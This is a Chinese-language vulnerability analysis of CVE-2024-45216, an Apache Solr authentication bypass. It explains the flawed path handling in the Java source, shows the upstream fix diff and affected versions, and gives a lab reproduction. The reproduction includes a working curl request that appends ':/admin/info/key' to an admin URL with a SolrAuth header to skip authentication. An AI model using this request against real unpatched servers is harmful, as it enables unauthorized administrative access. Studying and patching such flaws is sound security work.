



# CVE-2024-45216 CWE-863&287 Solr 身份认证绕过

## 漏洞背景

**Solr ：**一个高性能、可扩展的开源企业级搜索引擎平台，基于 Apache Lucene 构建。它采用倒排索引技术，能够快速高效地对海量数据进行全文检索，支持多种数据格式（如 JSON、XML 等）的导入和索引。Solr 提供强大的查询功能，包括全文检索、过滤查询、排序、分组等，可灵活满足不同的检索需求。还具备分布式搜索和索引复制功能，可实现高可用性和负载均衡，广泛应用于电商搜索、内容管理、数据分析等众多领域，助力企业提升搜索体验和数据处理能力。

## 漏洞原理

Solr 的`PKIAuthenticationPlugin`插件在验证请求时，对以 `/admin/info/key`结尾的请求路径未执行完整验证。通过构造特殊的请求路径，可以绕过所有身份验证逻辑。

## 漏洞定位

1. 在 solr/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java 文件，第 138 行 doAuthenticate 方法中，第 145 行从请求中获取 `requestURI`，检查其是否以 `PublicKeyHandler.PATH` （/admin/info/key）结尾。如果满足条件，调用 `filterChain.doFilter(request, response)`继续拦截并处理请求，并返回 `true`通过认证。

   ```java
   // PKIAuthenticationPlugin.java 文件，第 138 行 
   public boolean doAuthenticate(
         HttpServletRequest request, HttpServletResponse response, FilterChain filterChain)
         throws Exception {
       long receivedTime = System.currentTimeMillis();
   
       // ********** 145 行 **********
       String requestURI = request.getRequestURI();
       if (requestURI.endsWith(PublicKeyHandler.PATH)) {
         assert false : "Should already be handled by SolrDispatchFilter.authenticateRequest";
   
         numPassThrough.inc();
         filterChain.doFilter(request, response);
         return true;
       }
   
       // ...
   }
   ```

2. 在 solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java 文件，第 226 行 init 方法中，第 236 行的判断语句检查路径中是否包含冒号 : 字符，如果存在就截取 `':'` 之前的字符串作为新的 `path`为请求路径，并将 `':'` 之后的部分保存为 `handler` 路径参数。因此可以通过在 API 路径末尾添加伪造的 URL 片段（:/admin/info/key）绕过身份验证。

   ```java
   // HttpSolrCall.java 文件，第 226 行
   protected void init() throws Exception {
       // check for management path
       String alternate = cores.getManagementPath();
       if (alternate != null && path.startsWith(alternate)) {
         path = path.substring(0, alternate.length());
       }
   
       queryParams = SolrRequestParsers.parseQueryString(req.getQueryString());
   
       // ********** 236 **********
       int idx = path.indexOf(':');
       if (idx > 0) {
         // save the portion after the ':' for a 'handler' path parameter
         path = path.substring(0, idx);
       }
         
         // ...
     }
   ```

## 漏洞修复

- PKIAuthenticationPlugin.java：删除对 `/admin/info/keys`（公钥接口）的特殊放行，防止插件提前 `doFilter` 并返回 true 导致认证被跳过
- HttpSolrCall.java：删除冒号截断逻辑，并把 idx 变量推迟到真正需要的地方，让完整 URI（含冒号后缀）能够原样进入插件与后续处理链

```diff
diff --git a/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java b/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java
index 0b966e5419a..b1f6e6b6eed 100644
--- a/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java
+++ b/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java
@@ -141,15 +141,6 @@ public boolean doAuthenticate(
     // Getting the received time must be the first thing we do, processing the request can take time
     long receivedTime = System.currentTimeMillis();
 
-    String requestURI = request.getRequestURI();
-    if (requestURI.endsWith(PublicKeyHandler.PATH)) {
-      assert false : "Should already be handled by SolrDispatchFilter.authenticateRequest";
-
-      numPassThrough.inc();
-      filterChain.doFilter(request, response);
-      return true;
-    }
-
     PKIHeaderData headerData = null;
     String headerV2 = request.getHeader(HEADER_V2);
     String headerV1 = request.getHeader(HEADER);
diff --git a/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java b/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java
index cfa81f40c47..16bd180815f 100644
--- a/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java
+++ b/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java
@@ -219,13 +219,6 @@ protected void init() throws Exception {
 
     queryParams = SolrRequestParsers.parseQueryString(req.getQueryString());
 
-    // unused feature ?
-    int idx = path.indexOf(':');
-    if (idx > 0) {
-      // save the portion after the ':' for a 'handler' path parameter
-      path = path.substring(0, idx);
-    }
-
     // Check for container handlers
     handler = cores.getRequestHandler(path);
     if (handler != null) {
@@ -237,7 +230,7 @@ protected void init() throws Exception {
     }
 
     // Parse a core or collection name from the path and attempt to see if it's a core name
-    idx = path.indexOf('/', 1);
+    int idx = path.indexOf('/', 1);
     if (idx > 1) {
       origCorename = path.substring(1, idx);
```


## 影响范围

- Apache Solr 5.3.0 before 8.11.4
- Apache Solr 9.0.0 before 9.7.0

## 环境搭建

启动 Docker 环境，Solr 版本为 9.6.0，同时启用了身份验证 solr:SolrRocks

```txt
ADP:CISA-ADP   Base Score:9.8 CRITICAL   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:apache:solr:9.6.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用访问下面的网址，可以看到 Solr 返回错误 401：缺少身份认证信息

   ```bash
   curl --path-as-is -i -s -k -X $'GET' \
       -H $'Host: localhost:8983' \
       $'http://localhost:8983/solr/admin/cores'
   ```

   

2. 在 url 后加上 :/admin/info/key，并在请求体中加入 SolrAuth 字段，可以看到成功绕过身份验证直接访问

   ```bash
   curl --path-as-is -i -s -k -X $'GET' \
       -H $'Host: localhost:8983' -H $'SolrAuth: 11' \
       $'http://localhost:8983/solr/admin/cores:/admin/info/key'
   ```

   

## PoC分析

只有当`header`为`PKIAuthenticationPlugin.HEADER`或`PKIAuthenticationPlugin.HEADER_V2`时（即`SolrAuth`和`SolrAuthV2`），且`cores.getPkiAuthenticationSecurityBuilder()`不为空，当前的鉴权插件才是`PKIAuthenticationPlugin`，不然就是`BasicAuthPlugin`。

## 参考链接

[NVD - CVE-2024-45216](https://nvd.nist.gov/vuln/detail/CVE-2024-45216#range-16809751)

[[SOLR-17417\] Authentication bypass possible using a fake :/admin/info/key URL Path ending - ASF JIRA](https://issues.apache.org/jira/browse/SOLR-17417)

[SOLR-17417: Remove unecessary code in PKIAuthPlugin and HttpSolrCall · apache/solr@bd61680](https://github.com/apache/solr/commit/bd61680bfd351f608867739db75c3d70c1900e38)

[Apache Solr 身份认证绕过漏洞 (CVE-2024-45216) 分析与新发现-先知社区](https://xz.aliyun.com/news/15670)
